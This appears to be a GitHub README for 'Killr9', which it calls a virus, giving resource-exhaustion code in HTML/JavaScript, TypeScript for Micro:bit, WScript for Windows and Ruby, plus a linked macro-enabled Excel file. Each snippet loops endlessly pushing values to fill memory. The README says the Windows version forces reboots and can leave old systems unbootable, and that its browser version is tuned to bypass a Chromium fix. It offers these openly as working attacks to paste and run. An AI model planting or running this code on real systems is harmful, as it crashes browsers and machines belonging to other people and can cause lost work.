 # Killr9
A virus that will kill virtually anything! We have it available in HTML, JavaScript, Python, MakeCode, TypeScript, Godot, and more!

## Killing Webpages - Inline Script
Paste the JS code inside of a script tag.
```html
<script>
    function ohSnap() {
        var corruptable=[]
        for(var i=0;i<(9999999*999999999999999999999);i++) {
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
        }
    }
    
    setInterval(ohSnap) // required to bypass a fix in newer Chromium versions
</script>
```


## Killing a Windows96 instance(WRT Bin)
Create a WRT bin, like this:
```js
//!wrt
function ohSnap() {
    var corruptable=[]
    for(var i=0;i<(9999999*999999999999999999999);i++) {
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
    }
}

setInterval(ohSnap);
```

Executing any WRT binary on Windows 96 with this code will cause the tab to lag and crash.

## Killing the BBC Micro:bit (MakeCode Editor)
Open the makecode editor at https://makecode.microbit.org/, create a project, and paste the typescript in:
```ts
function ohSnap () {
    for (let i = 0; i <= (9999999 * 999999999999999999999) - 1; i++) {
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
    }
}
let corruptable: number[] = []
corruptable = []
ohSnap()
```

Flashing this code onto your Micro:bit will cause the RAM to become completely full. This will also cause in error when being ran in the simulator, and in rare instances may completely crash it.

## Killing Windows 98 - Windows 11 (WScript)
Create a new `.js` file with the following contents:
```js
function ohSnap() {
    var corruptable=[]
    if(!corruptable.push) {
        corruptable.push=function(e){
            corruptable[corruptable.length]=e;
            corruptable.length++
        }
    }
    for(var i=0;i<(9999999*999999999999999999999);i++) {
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
    }
}

ohSnap()
```

Running this script with WSCRIPT.EXE will not cause immediate system death, but will fill up the RAM and cause the system to lag. Eventually, a force reboot will be required.
In some cases, running this on old versions of Windows may cause the system to not be able to boot up again.

## Embedding in Ruby Programs
Create a new `.rb` file with the following contents:
```ruby
def oh_snap
  corruptable = []
  (0..9999999*999999999999999999999).each do |i|
    11.times { corruptable << i }
  end
end

oh_snap
```

## Killing Microsoft Excel
Download [MSExcel.xlsm](/src/MSExcel.xlsm) and open it in Excel. The macros will do something to it. It may not even get past the splash page.
